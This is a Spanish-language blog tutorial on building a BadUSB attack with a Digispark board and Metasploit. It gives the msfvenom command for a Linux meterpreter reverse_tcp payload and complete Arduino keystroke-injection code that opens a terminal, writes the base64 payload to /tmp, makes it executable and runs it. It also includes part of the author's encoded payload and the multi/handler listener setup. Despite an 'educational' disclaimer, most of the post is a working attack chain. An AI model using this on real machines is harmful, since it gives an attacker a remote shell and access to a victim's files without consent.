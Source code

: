 ```yaml
---
layout: post
title: Basic Exploit with Digispark

---
```

# Introducción
En el dia de hoy explicaremos como hacer una técnica de explotación básica ayudandonos de Digispark y metasploit framework.
Este post lo he creado en Español para difundir mi idioma y dar a conocer el mundo de la seguridad informática en Español.
Para comenzar necesitaremos lo siguiente:  
  - Digispark: [amazon](https://www.amazon.es/AZDelivery-Digispark-Kickstarter-Desarrollo-compatible/dp/B076KS2QDS/ref=asc_df_B076KS2QDS/?tag=googshopes-21&linkCode=df0&hvadid=301006161094&hvpos=1o1&hvnetw=g&hvrand=3258160503763513062&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9047059&hvtargid=pla-602427609241&psc=1)
  - Disposición Linux, en mi caso uso ubuntu 18.04
  - Metasploit Framework
  
Cabe mencionar que necesitamos comprar el Digispark, yo lo compré en Amazon, 3 por casi 10 euros y sin duda merece la pena, se puede hacer
tales cantidades de proyectos..

Todo lo que explico es con fines educativos, no me hago responsable del mal uso que le hagais a este post, simplemente me gusta enseñar las habilidades de hacking ético que conozco con el fin de que aprendais como podeis ser atacados y saber defenderos.

# Construyendo el exploit
Para crear el exploit debemos usar la herramienta msfvenom y excribir la siguiente linea de código: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP A USAR) LPORT=(PUERTO A USAR) -f elf > exploit`

Como podemos observar lo que crearemos es un exploit el cual, al ejecutarse en el equipo victima (con distribución linux) nos abrirá una conexión tcp
la cual nos permitirá infectar el equipo y con meterpreter poder acceder a todos sus archivos. 
En la IP cada uno pondra su ip, se puede mirar abriendo la terminal y escribiendo el siguiente comando `ifconfig`, dependiendo si teneis vuestro computador enchufado por cable o lo teneis inalámbrico estará en una interfaz o otra. Esa IP es privada, es decir, solo os servirá para vuestra propia red, no obstante se puede crear este exploit y sacarlo fuera de la red local(LAN), pero eso lo dejaré para otro post. Dicho esto yo usaré mi IP privada y un puerto efímero, el 5000 por ejemplo.

![Foto1](/images/foto1.png)
 
Bien, para terminar de construir este exploit hay que tranformarlo a base64 para poder ejecutarlo directamente en la computadora víctima, asique escribiremos lo siguiente: `base64 exploit > exploit.b64`. Podemos comprobar que ha sido construido satisfactoriamente con el comando `cat exploit.b64`.

![Foto2](/images/foto2.png)

# Creando el script para Digispark
Bien, ahora pasemos a lo interesante de este post, crearemos un script en Arduino que nos permita crear un archivo b64 en la computadora victima, darle los permisos de ejecución con chmod y ejecutarlo para poder explotar el sistema. Para ello como ya he dicho nos apoyaremos en Arduino, para ponerlo en funcionamiento debereis descargarlo en la pagina oficial [arduino](https://www.arduino.cc/en/Main/Software) . Posteriormente en el arduino nos iremos a `Herramientas->Placa->Gestor de Tarjetas` y instalaremos `Digistump AVR boards`, por último en placa ya seleccionaremos `Digispark(Default - 16.5mhz)` y Fiuh listo ya podemos ponernos manos a la obra y empezar a crear nuestros primeros script para el Digispark. Como todos sabeis Arduino consta de dos funciones setup() en la cual inicializaremos los pines y cualquier otra cosa, se puede dejar en blanco y la función loop() que se repetira constantemente. Empezaremos con las lineas `#include "DigiKeyboard.h"` para poder trabajar con DigiKeyboard, que nos permitirá simular un teclado con el Digispark.
Yo os facilitaré el código que he creado para ejecutar el script en el ordenador víctima.
{% highlight c++ %}
#include "DigiKeyboard.h"
#define KEY_DELETE 0x4C
void setup() {
  
// Encendemos el LED para saber que se esta ejecutando
pinMode(1, OUTPUT);
delay(200);
digitalWrite(1, HIGH);
DigiKeyboard.sendKeyStroke(KEY_DELETE);
delay(200);

//Abrimos el buscador y escribimos terminal
DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT); 
DigiKeyboard.delay(1000);
DigiKeyboard.print("terminal");
DigiKeyboard.delay(500);

// Creamos el payload
DigiKeyboard.print("echo");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.print("TU PAYLOAD");
DigiKeyboard.sendKeyStroke(KEY_1,MOD_ALT_RIGHT);
DigiKeyboard.print(" base64 //decode ");
DigiKeyboard.sendKeyStroke(100,2);
DigiKeyboard.print(" ");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);

// Cambiamos los permisos para poder ejecutarlo y lo ejecutamos
DigiKeyboard.print("chmod 755");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(200);
// Ejecutamos
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);

DigiKeyboard.delay(100);
// Paramos el led
digitalWrite(1, LOW);

}

void loop() {
// Para saber que el script se ha ejecutado con exito, mantendremos el led encendiendose y apagandose

digitalWrite(1, HIGH);
delay(200);

digitalWrite(1, LOW);
delay(300);

}
{% endhighlight %}
Bien, el código es un poco enrevesado, pero después de darle unas vueltas os dareis cuenta de que lo único que hace es: Encender el led rojo fijo, abrir la terminal, escribir el payload generado y guardarlo en un archivo, cambiarle los permisos y ejecutarlo, para terminar pone el led intermitente. Es simplemente eso.
Puedo comentaros algunos problemillas que he tenido, mi payload tenia una barra invertida entre medias entonces he tenido que dividir el print, y la barra la he puesto con la combinación de teclas que corresponde, puesto que si la escribía en el print daba errores con el teclado y no se escribia una / si no un - . Por eso en mi caso me quedaría asi ese trozo:
{% highlight c++ %}
DigiKeyboard.print("f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKhkFGgCABOIieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("huAEAAAC7AQAAAM2A ");
{% endhighlight %}
Ahi apreciais como separo el payload, escribo la barra `/` y ya continuo. Os menciono esto por si, a la hora de escribir vuestro payload, como evidentemente el valor cambia, os adelanto este problema.
Para terminar esta parte, verificaremos nuestro programa, le daremos a subir y introduciremos el Digispark. Una vez subido podemos desenchufarlo y ya preparar la siguiente parte que es configurar metasploit. ¡¡Ya queda poco!!

# Configurando msfconsole
Llegados hasta aqui, ahora solo nos queda la parte divertida, configuraremos msfconsole para que se ponga a la escucha de conexiones TCP y explotar el sistema cuando se ejecute el payload en el equipo víctima. bien empezemos:
  - Ejecutamos en una terminal msfconsole -q (-q es para que no nos aparezca el banner)
  - Ejecutamos `use exploit/multi/handler` para seleccionar el exploit.
  - Ahora pasemos a configurar los parametros, pondremos set LHOST (NUESTRA IP) en mi caso: `set LHOST 192.168.100.20`.
  - Posteriormente establecemos el puerto que pusimos en el payload, en mi caso el 5000: `set LPORT 5000`.
  - Por ultimo seleccionamos el PAYLOAD que usamos anteriormente: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`, y los datos que pusimos anteriormente se cargaran alli.
  
Siempre podemos usar `show options` para ver si hemos configurado correctamente todo.
  
![foto3](/images/foto3.png)
  
Llegados a este punto ya podriamos probar si funciona nuestra prueba...

# Exploit...

Bien, por fin hemos llegado a la prueba de la verdad, es hora de enchufar nuestro Digispark al ordenador y ver si funciona, no obstante antes hay que poner meterpreter a la escucha, asique teclearemos en nuestra msfconsole: `exploit`, y ya se pondra a la escucha de la conexion TCP.

Aqui os dejo un pequeño video de lo que ocurre al enchufar nuestro Digispark, espero que os haya gustado, cualquier duda dejenmelo saber enviandome un mail.

  
